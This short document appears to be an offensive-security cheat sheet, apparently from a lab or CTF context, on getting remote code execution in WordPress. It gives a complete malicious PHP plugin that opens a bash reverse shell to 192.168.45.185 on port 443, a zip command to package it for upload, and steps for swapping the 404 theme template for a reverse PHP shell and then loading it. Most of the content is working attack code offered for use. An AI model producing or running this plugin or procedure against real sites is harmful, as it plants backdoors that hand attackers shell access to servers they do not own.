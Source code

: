 ### Upload Plugin to RCE
```
<?php
/**
* Author: Saeed Bala
* Plugin Name: PHP Code Plugin
* Description: Shell Through Plugins
* Version: 1.0
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/443 0>&1'");
?>

zip -r plug.zip index.php
```
### Update Theme File to RCE 
```
1. Location: Backend -> Theme Editor -> Theme Files -> 404 Template
2. Replace with your rev php shell
3.Access the 404 Template
http://192.168.199.55/shenzi/404.php
```
